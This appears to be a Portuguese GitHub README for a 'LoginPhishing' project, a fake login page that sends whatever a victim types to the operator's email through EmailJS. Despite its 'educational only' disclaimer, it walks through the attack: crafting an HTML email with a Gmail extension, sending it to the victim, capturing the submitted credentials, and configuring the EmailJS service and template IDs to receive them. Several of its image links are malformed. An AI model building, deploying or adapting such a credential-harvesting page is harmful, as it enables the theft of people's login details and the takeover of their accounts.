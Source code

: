 # LoginPhishing

![Página]([https://i.imgur.com/seuarquivo.png]([https://imgur.com/1rDGZQO](https://imgur.com/ZDiX2gC))

Este projeto tem como objetivo demonstrar, de forma **educacional**, como uma página de phishing pode ser criada para fins de **conscientização sobre segurança da informação**. 

> ⚠️ **Atenção:** Este projeto é **exclusivamente para fins educacionais e acadêmicos**. Nunca deve ser usado para fins maliciosos, coleta real de dados, ou violação de privacidade. O uso indevido pode ser considerado crime e é passível de penalidades legais.

---

##  Objetivo

O projeto simula uma página de login com aparência legítima, capturando credenciais de forma didática utilizando **HTML**, **CSS**, **JavaScript** e a biblioteca **EmailJS** para envio dos dados preenchidos no formulário.

---

## 🛠 Tecnologias Utilizadas

- HTML5
- CSS3
- JavaScript (puro)
- [EmailJS](https://www.emailjs.com/) – envio de dados via e-mail

---
## Como Funciona

![Página]([https://i.imgur.com/seuarquivo.png](https://imgur.com/1rDGZQO))

É enviado para a vítima o email criado com a extensão HTML Editor for Gmail by cloudHQ

![Página]([https://imgur.com/ZHFzDOG))

A vitima preenche o formulário e confirma

---

![Página]([https://imgur.com/ZHFzDOG](https://imgur.com/jis3GgN))

E os dados preenchidos pela vítima será enviados para seu email

---

## Como Usar

1. Clone o repositório:
   git clone https://github.com/seu-usuario/nome-do-repositorio.git
   
2. Configure o serviço EmailJS:
   - Crie uma conta no EmailJS
   - Crie um service, template, e copie sua public key
   - Substitua no código:
       emailjs.init("Sua Public Key");
       emailjs.send("Seu Service ID", "Seu Template ID", templateParams)




